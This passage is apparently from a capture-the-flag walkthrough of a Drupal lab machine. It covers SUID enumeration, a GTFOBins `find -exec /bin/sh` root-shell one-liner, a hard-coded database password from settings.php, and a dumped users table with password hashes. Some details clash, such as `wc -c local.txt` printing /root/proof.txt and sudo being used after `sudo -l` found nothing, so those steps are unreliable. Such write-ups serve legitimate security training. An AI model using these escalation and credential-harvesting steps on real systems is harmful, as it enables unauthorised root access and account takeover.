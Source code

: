 <br>

## System Enumeration

I check `sudo -l` and no luck.

Checking to see if there are any exploitable SUID files we see:

`find / -perm /4000 2>/dev/null`

```
-rwsr-xr-x 1 root root 159K Jan  6  2012 /usr/bin/find
```

Checking [**GTFOBins**](https://gtfobins.github.io/gtfobins/find/) shows us we can run the following:

```
sudo find . -exec /bin/sh \; -quit
```

I look around for the first flag and find it in the /home directory:

`wc -c local.txt`

```
33 /root/proof.txt
```

I also find that MySQL is running on port 3306 and a config file has credentials hard coded. If you want to play around this a bit more the password hashes are available in the users table of this database:

```
/var/www/sites/default/settings.php

      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
```

```
+-----+-----------+---------------------------------------------------------+-------------------+-------+-----------+------------------+------------+------------+------------+--------+---------------------+----------+---------+-------------------+------+
| uid | name      | pass                                                    | mail              | theme | signature | signature_format | created    | access     | login      | status | timezone            | language | picture | init              | data |
+-----+-----------+---------------------------------------------------------+-------------------+-------+-----------+------------------+------------+------------+------------+--------+---------------------+----------+---------+-------------------+------+
|   0 |           |                                                         |                   |       |           | NULL             |          0 |          0 |          0 |      0 | NULL                |          |       0 |                   | NULL |
|   1 | admin     | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR | admin@example.com |       |           | NULL             | 1550581826 | 1550583852 | 1550582362 |      1 | Australia/Melbourne |          |       0 | admin@example.com | b:0; |
|   2 | Fred      | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg | fred@example.org  |       |           | filtered_html    | 1550581952 | 1550582225 | 1550582225 |      1 | Australia/Melbourne |          |       0 | fred@example.org  | b:0; |
|   3 | testuser  | $S$DZpGpzUQMeWEVNjoTnHjVE00B/SBIfa7MjGKOP7BuUjcd4MerWXp | testuser@test.com |       |           | filtered_html    | 1662843661 |          0 |          0 |      0 | Australia/Melbourne |          |       0 | testuser@test.com | NULL |
+-----+-----------+---------------------------------------------------------+-------------------+-------+-----------+------------------+------------+------------+------------+--------+---------------------+----------+---------+-------------------+------+
```
